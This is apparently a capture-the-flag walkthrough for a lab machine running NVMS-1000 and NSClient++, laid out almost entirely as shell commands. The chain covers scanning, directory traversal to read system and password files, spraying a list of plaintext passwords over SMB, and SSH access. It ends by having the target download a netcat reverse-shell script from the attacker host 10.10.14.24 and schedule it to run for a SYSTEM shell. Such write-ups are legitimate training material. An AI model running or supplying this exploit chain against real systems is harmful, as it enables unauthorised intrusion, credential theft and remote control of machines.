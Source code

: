 ## 🔎 Recon

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.184
nmap -sV -sC -p 21,22,80,135,139,445,5040,5666,6063,6699,7680,8443 -oA scans/nmap-tcpscripts 10.10.10.184
```

---

## 📁 [FTP](FTP) Enumeration

```bash
wget -r ftp://anonymous:@10.10.10.184
find ftp/ -type f
cat ftp/Users/Nadine/Confidential.txt
cat ftp/Users/Nathan/Notes\ to\ do.txt
```

---

## 🌐 [Web](HTTP) (TCP 80) – NVMS-1000

```bash
searchsploit "nvms 1000"
# Test LFI
curl 'http://10.10.10.184/../../../../../../../../../../../../windows/win.ini'
# Use traversal to read passwords.txt
curl 'http://10.10.10.184/../../../../../../../../../../../../Users/Nathan/Desktop/passwords.txt'
```

---

## 🔓 Credential Testing

```bash
# Create users.txt and passwords.txt
cat > users <<EOF
administrator
nathan
nadine
EOF

cat > passwords <<EOF
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
EOF

crackmapexec smb 10.10.10.184 -u users -p passwords
```

---

## 🐚 Shell as Nadine [SSH](SSH)

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184
```

---

## 🔐 NSClient++ Enumeration & Tunnel

```bash
# Display password from inside SSH shell
nscp web -- password --display

# Local tunnel to access 127.0.0.1:8443
sshpass -p 'L1k3B1gBut7s@W0rk' ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

---

## 🧨 NSClient++ Exploitation Steps

```bash
# Attacker box: prepare reverse shell payload
echo '\programdata\nc.exe 10.10.14.24 443 -e cmd' > shell.bat
python3 -m http.server 80

# Target box: download tools
powershell wget http://10.10.14.24/nc64.exe -outfile nc.exe
powershell wget http://10.10.14.24/shell.bat -outfile shell.bat
```

Then on NSClient++ web GUI (via https://127.0.0.1:8443):
- Add external script `df` → `C:\\programdata\\shell.bat`
- Add schedule to run `df` every 10s
- Control → Reload

---

## 🖥️ Catch SYSTEM Shell

```bash
rlwrap nc -lvnp 443
# Wait for reverse shell
```